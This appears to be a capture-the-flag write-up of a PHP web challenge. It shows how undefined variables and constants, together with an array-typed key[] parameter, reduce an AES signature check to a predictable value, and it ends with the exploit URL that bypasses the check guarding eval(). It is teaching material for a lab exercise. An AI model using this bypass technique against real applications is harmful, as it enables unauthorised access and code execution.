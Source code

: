 ```yaml
---
title:  "Certay revenge Web Challenge - From L3ak CTF"
description: Web challenge from L3ak CTF, a simple note-taking system with user authentication, where the goal is to bypass the required hash using PHP language pitfalls.
image: 
  path: /assets/img/blog/blackhat/wolv_black_hat.jpg
tags: [ctf, web, php, AES, pitfalls]
date:   2025-07-15 13:49:56 +0300
categories: [CTFs]
---
```

**Last Modified: 2025-07-14 06:51**

> Probably you need to understand our language to get some of the super powers?

The challenge mainly is about spotting pitfalls of PHP to be able to bypass bypass the required hash.

The web application is a simple note-taking system with user authentication:

1. **User Registration/Login**: Users can register and login via register.php and login.php
2. **Session Management**: PHP sessions track logged-in users with `$_SESSION['user_id']`
3. **Note Storage**: Users can store private notes via post_note.php
4. **Dashboard Access**: dashboard.php displays notes after signature verification

### Normal Authentication Flow
```php
// Login creates session
$_SESSION['user_id'] = $user_id;
$_SESSION['yek'] = openssl_random_pseudo_bytes(16); // 16-byte session key

// Dashboard requires both session AND signature verification
if (!isset($_SESSION['user_id'])) {
    header('Location: login.php');
    exit;
}

// Additional signature check for sensitive operations
if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
    // Execute stored notes via eval()
}
```

### Encryption Implementation
#### Encryption Functions
```php
function safe_sign($data) {
    return openssl_encrypt($data, 'aes-256-cbc', KEY, 0, iv);
}

function custom_sign($data, $key, $vi) {
    return openssl_encrypt($data, 'aes-256-cbc', $key, 0, $vi);
}
```
#### Signature Verification Logic
```php
if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
    // Authentication successful - execute user notes
    eval($content);
}
```
**How it's supposed to work:**

1. `safe_sign($_GET['key'])` encrypts user input with server's secret `KEY`
2. Result becomes IV for `custom_sign()`
3. `custom_sign()` encrypts `$_GET['msg']` using session key `$yek`
4. Final result must match `$_GET['hash']`

The app takes three parameters and do that :
![alt text](<../assets/img/blog/attachments-certay/Pasted image 20250716130912.png>)


## Exploit Chain
### PHP Language Pitfalls Exploited
#### Undefined Constant Behavior
```php
<?php
define('yek', $_SESSION['yek']);

// Later in code:
custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']
```

**Pitfall**: `$yek` (variable) vs `yek` (constant)

- **Expected**: `$yek` should reference the constant `yek`
- **Reality**: `$yek` is an undefined variable, defaults to `null`, if you want to use the defined value you should use `yek` instead of `$yek`
- **Impact**: Encryption key becomes empty string instead of 16-byte session key (as the second parameter to `custom_sign() is the encryption key.)

####  Undefined Constant String Conversion

```php
return openssl_encrypt($data, 'aes-256-cbc', KEY, 0, iv);
```

**Pitfall**: `iv` constant is never defined

- **Expected**: `iv` should be a defined constant
- **Reality**: PHP converts undefined constant to string `"iv"`. so the `iv` will become literally "iv"
- **Impact**: IV becomes predictable 2-byte string instead of random 16 bytes
####  OpenSSL IV Padding Behavior (it's not a pitfall)

```php
openssl_encrypt($data, 'aes-256-cbc', KEY, 0, "iv");
```
 AES-256-CBC requires exactly 16-byte IV

- **Input**: `"iv"` (2 bytes)
- **OpenSSL behavior**: Pads with null bytes to 16 bytes
- **Result**: `"iv\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"` (predictable)
#### 4. Array Parameter Handling

```php

if (isset($_GET['msg']) && isset($_GET['hash']) && isset($_GET['key'])) {

    if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
```

**Pitfall**: `openssl_encrypt()` expects string, receives array

- **Input**: `key[]` creates `$_GET['key'] = []` (empty array)
- **OpenSSL behavior**: Returns :

```
Warning: openssl_encrypt() expects parameter 1 to be string, array given in /home/user/scripts/code.php on line 7
NULL
```
![alt text](<../assets/img/blog/attachments-certay/Pasted image 20250716132852.png>)

- **Impact**: 

```php
// URL: dashboard.php?key[]

// Creates: $_GET['key'] = []

// Results in: safe_sign([]) → NULL

// Then: custom_sign($_GET['msg'], $yek, NULL)
// yek is also empty, we showed that previously

```

*The Real Signature Check is* :
```php
custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']
```
but with such behaviors it becomes:
```php

custom_sign($_GET['msg'], null, NULL) === $_GET['hash']
``` 
which is :
```php
openssl_encrypt($_GET['msg'], 'aes-256-cbc', '', 0, NULL) === $_GET['hash']
```
**How NULL is Handled as IV**

When `NULL` which is `$yek` is passed as the IV parameter:

- **PHP converts `NULL` to empty string `""`**
- **OpenSSL pads empty string to 16 bytes with null bytes**
- **Effective IV becomes 16 null bytes**
*To make sure of this behavior i created this test:*

```php

// Test the actual behavior

$result1 = openssl_encrypt("test", 'aes-256-cbc', '', 0, NULL);

$result2 = openssl_encrypt("test", 'aes-256-cbc', '', 0, false);

$result3 = openssl_encrypt("test", 'aes-256-cbc', '', 0, "");

  

echo "NULL IV: " . $result1 . "\n";

echo "false IV: " . $result2 . "\n";

echo "empty string IV: " . $result3 . "\n";

?>

output :
NULL IV: 2HB5iFgiP0Vk00CxA/ZSew==

false IV: 2HB5iFgiP0Vk00CxA/ZSew==

empty string IV: 2HB5iFgiP0Vk00CxA/ZSew==

```

**So now all i need making these nested conditions returns true :**

```php
if (isset($_GET['msg']) && isset($_GET['hash']) && isset($_GET['key'])) {

    if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
```

**All parameters now predictable:**

- **Message**: `$_GET['msg']` (user controlled)
- **$yek** : Empty
- **safe_sign($\_GET['key']))**: `''` (empty string from null, it's NULL because of `GET['key'` is set to `key[]` )

### Exploit

```
http://server/dashboard.php?msg=test&key[]=&hash=2HB5iFgiP0Vk00CxA%2FZSew%3D%3D
```

![Getting the Flag](<../assets/img/blog/attachments-certay/Screenshot 2025-07-14 161837.png>)
